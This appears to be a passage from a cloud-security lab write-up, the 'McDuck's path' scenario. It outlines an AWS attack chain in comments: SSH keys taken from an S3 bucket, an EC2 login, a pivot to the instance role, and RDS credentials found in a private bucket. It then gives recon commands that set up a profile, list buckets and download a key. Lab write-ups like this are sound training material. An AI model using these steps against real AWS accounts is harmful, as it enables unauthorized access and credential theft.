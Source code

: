 ![012821-22](https://i.loli.net/2021/02/02/kEopOD1xcdgTahI.png)





#### McDuck’s path

```bash
# The attacker explores the AWS environment and discovers they are able to list S3 buckets using their starting keys.
# The attacker discovers several S3 buckets, but they are only able to access one of them. Inside that one S3 bucket they find a pair of SSH keys.
# The attacker lists EC2 instances and finds the EC2 instance behind the Load Balancer.
# The attacker discovers that the SSH keys found in the S3 bucket enable the attacker to log into the EC2 instance.
# Now working through the EC2 instance (and therefore operating with its role instead of McDuck's), the attacker is able to discover and access a private S3 bucket.
# Inside the private S3 bucket, the attacker finds a text file left behind by an irresponsible developer which contains the login credentials for an RDS database.
# The attacker is able to list and discover the RDS database referenced in the credentials file.
# The attacker is finally able to access the RDB database using the credentials they found in step 6 and acquire the scenario's goal: the secret text stored in the RDS database.

```



1. recon

```bash
#set command line parameters
INFILE=~/.aws/credentials


# ------------- 1. Deploying the resources gives us the access key and secret key
SRC_PROFILE='McDuck'
AWS_ACCESS_KEY_ID='xxx'
AWS_SECRET_ACCESS_KEY='yyy'
AWS_REGION='us-east-1'
USE_RNAME='McDuck'


# ------------- 2. create a profile
# aws configure --profile $SRC_PROFILE
echo "[$SRC_PROFILE]
REGION = $AWS_REGION
AWS_ACCESS_KEY_ID = $AWS_ACCESS_KEY_ID
AWS_SECRET_ACCESS_KEY = $AWS_SECRET_ACCESS_KEY
" | crudini --merge $INFILE
echo "Set creds for profile $PROFILE in $INFILE"



# ------------- 3. enumerating the policies and permissions
# lists S3 buckets, three S3 buckets,
aws s3 ls \
    --profile $SRC_PROFILE
# unauthorized to access two of the three buckets.
# have access to the keystore bucket, which contains SSH keys.
aws s3 ls s3://<bucket> \
    --recursive \
    --profile $SRC_PROFILE
# download the files
aws s3 cp s3://<bucket>/key.pub . \
    --profile $SRC_PROFILE


```